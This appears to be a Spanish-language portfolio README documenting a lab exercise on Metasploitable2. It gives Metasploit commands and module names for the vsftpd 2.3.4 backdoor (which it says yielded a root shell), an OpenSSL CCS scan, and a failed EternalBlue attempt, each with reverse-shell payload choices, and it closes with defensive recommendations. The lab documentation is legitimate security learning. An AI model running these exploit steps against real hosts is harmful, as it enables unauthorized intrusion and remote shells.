









# CVE-2011-2523 - vsftpd 2.3.4 backdoor en Metasploitable2

> Laboratorio realizado en un entorno local/controlado con fines educativos. No aplicar estas tecnicas sobre sistemas de terceros sin autorizacion expresa.

## Objetivo

Documentar la explotacion controlada del backdoor de vsftpd 2.3.4 y otros hallazgos asociados en Metasploitable2.

## Informacion general

- Categoria: Explotacion controlada
- Entorno: Kali Linux y maquinas vulnerables de laboratorio
- Formato: documentacion tecnica para portfolio GitHub

## Desarrollo de la practica


### CVE-2011-2523

La versión 2.3.4 de vsftpd descargada entre el 30 de junio y el 3 de julio de 2011 contiene una puerta trasera que abre un shell en el puerto 6200/tcp.

Published 2019-11-27 21:15:12 Updated 2021-04-12 19:15:13


### Utilizamos los comandos

```bash

search CVE-2011-2523 , (para buscar el exploit).

use 0 exploit/unix/ftp/vsftpd_234_backdoor , (para utilizar el módulo indicado).

show payloads , (para enumerar payloads).

set payload 0 , ó -set payload/cmd/unix/interact , (para configurar que vamos a utilizar ese payload).

```

Al aparecer hay un solo payload, utilizaremos ese para llevar a cabo el ataque.

```bash

show options , (así vemos si nos falta algo por configurar).

set RHOSTS 10.10.10.5 , (para configurar el host donde haremos la explotación).

```

Después de configurar todo y ver que lo tenemos correcto y preparado el ataque utilizamos el siguiente comando:

```bash

exploit , (para comenzar la explotación).

```


### Exploit

unix/ftp/vsftpd_234_backdoor


### Payload

cmd/unix/interact


### Observaciones

Al iniciar sesión con un nombre de usuario que contenga el carácter :) (como "letmein:)"), se activa un backdoor que abre una shell en el puerto 6200. En este caso, el exploit tuvo éxito: se detectó el banner del servicio, se activó el backdoor y se obtuvo una shell con privilegios de root, confirmando que el sistema estaba ejecutando la versión maliciosa del servidor FTP.


### CVE-2014-0224

OpenSSL anterior a la versión 0.9.8za, 1.0.0 anterior a la versión 1.0.0m, y 1.0.1 anterior a 1.0.1h no restringen adecuadamente el procesamiento de los mensajes ChangeCipherSpec, lo que permite a los atacantes intermedios activar el uso de una clave maestra de longitud cero en determinadas comunicaciones entre OpenSSL y OpenSSL y, en consecuencia, secuestrar sesiones u obtener información , mediante un protocolo de enlace TLS diseñado específicamente, también conocido como la vulnerabilidad «CCS Injection».

Published 2014-06-05 21:55:08 Updated 2025-04-12 10:46:41

```bash

search CVE-2014-0224, (para buscar el exploit).

use 0 auxiliary/scanner/ssl/openssl_ccs, (para utilizar el módulo indicado).

set payload 3 , ó -set payload aix/ppc/shell_reverse_tcp, (para configurar que vamos a utilizar ese payload).

```

Como hay varios payloads, probaremos algunos para llevar a cabo el ataque.

auxiliary/scanner/ssl/openssl_ccs

aix/ppc/shell_reverse_tcp

El payload aix/ppc/shell_reverse_tcp que he configurado no tiene efecto porque este módulo no permite la ejecución de payloads; solo realiza análisis pasivo.


### CVE-2017-0144

El servidor SMBv1 en Microsoft Windows Vista SP2; Windows Server 2008 SP2 y R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold y R2; Windows RT 8.1; y Windows 10 Gold, 1511 y 1607; y Windows Server 2016 permite a los atacantes remotos ejecutar código arbitrario a través de paquetes diseñados, también conocido como «Vulnerabilidad de ejecución remota de código SMB de Windows». Esta vulnerabilidad es diferente de las descritas en CVE-2017-0143, CVE-2017-0145, CVE-2017-0146 y CVE-2017-0148.

Published 2017-03-17 00:59:04 Updated 2025-10-22 00:15:59

```bash

search CVE-2017-0144 , (para buscar el exploit).

use 0 exploit/windows/smb/ms17_010_eternalblue, (para utilizar el módulo indicado).

set payload 3 , ó -set payload generic/shell_reverse_tcp, (para configurar que vamos a utilizar ese payload).

```

Como hay varios payloads, utilizaremos cualquiera para llevar a cabo el ataque.


### Módulo

exploit/windows/smb/ms17_010_eternalblue

generic/shell_reverse_tcp

El módulo ms17_010_eternalblue intentó explotar la vulnerabilidad CVE-2017-0144 en el sistema objetivo (10.10.10.5:445), pero falló porque el escaneo previo determinó que el host no es vulnerable. Metasploit usó primero el módulo auxiliar scanner/smb/smb_ms17_010 para verificar la presencia de la vulnerabilidad EternalBlue, y al recibir una respuesta negativa, abortó el ataque. Esto indica que el sistema objetivo probablemente está parchado, apagado, o no ejecuta una versión vulnerable de Windows (como Windows 7, XP, o Server 2008 sin actualizaciones). El mensaje Exploit completed, but no session was created confirma que no se logró acceso remoto.

## Evidencias visuales

### Captura 01



### Captura 02



### Captura 03



### Captura 04



### Captura 05



### Captura 06



### Captura 07



### Captura 08



### Captura 09




## Medidas defensivas y aprendizaje

- Mantener servicios actualizados y eliminar software obsoleto.
- Exponer solo los puertos necesarios y aplicar reglas de firewall.
- Usar segmentacion de red para aislar maquinas vulnerables o servicios criticos.
- Revisar logs de autenticacion, red y aplicacion tras cualquier prueba.
- Sustituir servicios inseguros por alternativas cifradas y soportadas.
- Aplicar el principio de minimo privilegio en usuarios, servicios y demonios.
- Documentar cada hallazgo con evidencia, impacto y recomendacion.

## Notas

- Se ha eliminado informacion personal y marcas de confidencialidad del documento original.
- Las rutas, IPs y credenciales que aparecen pertenecen a entornos de laboratorio o maquinas vulnerables preparadas para practica.
- Este README es la version limpia para GitHub; conserva los documentos originales solo en privado.
